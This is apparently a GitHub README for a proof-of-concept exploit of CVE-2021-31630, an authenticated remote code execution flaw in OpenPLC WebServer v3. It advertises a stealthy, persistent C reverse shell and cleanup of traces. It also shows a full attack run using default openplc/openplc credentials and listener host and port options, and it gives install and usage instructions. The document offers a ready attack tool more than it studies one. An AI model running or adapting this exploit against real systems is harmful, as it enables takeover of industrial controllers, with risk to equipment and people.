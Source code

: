 # cve-2021-31630

## OpenPLC WebServer v3 - Authenticated RCE

This PoC script is based on the exploit provided by [Fellipe Oliveira](https://packetstormsecurity.com/files/162563/OpenPLC-WebServer-3-Remote-Code-Execution.html).


### Features :
- Directly uploads C code to `/hardware` instead of `st` file upload
- Restores default program before uploading reverse shell
- Improved C based reverse shell which is **non blocking** so web server doesn't hang `;)`
- Spawns shell in the background, works even after PLC is stopped until exit
- Cleanup


```
$ python cve_2021_31630.py -lh 10.10.16.68 -lp 4444 http://10.10.11.7:8080

------------------------------------------------
--- CVE-2021-31630 -----------------------------
--- OpenPLC WebServer v3 - Authenticated RCE ---
------------------------------------------------

[>] Found By : Fellipe Oliveira
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t ]

[>] Target   : http://10.10.11.7:8080
[>] Username : openplc
[>] Password : openplc
[>] Timeout  : 20 secs
[>] LHOST    : 10.10.16.68
[>] LPORT    : 4444

[!] Checking status...
[+] Service is Online!
[!] Logging in...
[+] Logged in!
[!] Restoring default program...
[+] PLC Stopped!
[+] Cleanup successful!
[!] Uploading payload...
[+] Payload uploaded!
[+] Waiting for 5 seconds...
[+] Compilation successful!
[!] Starting PLC...
[+] PLC Started! Check listener...
[!] Cleaning up...
[+] PLC Stopped!
[+] Cleanup successful!
```

### Dependencies

```
pip3 install requests
```

### Usage

```
usage: cve_2021_31630.py [-h] [-u U] [-p P] [-t T] -lh LH -lp LP url

positional arguments:
  url         Target URL with http(s)://

options:
  -h, --help  show this help message and exit
  -u U        Username
  -p P        Password
  -t T        Request Timeout, increase if server is slow
  -lh LH      LHOST
  -lp LP      LPORT
```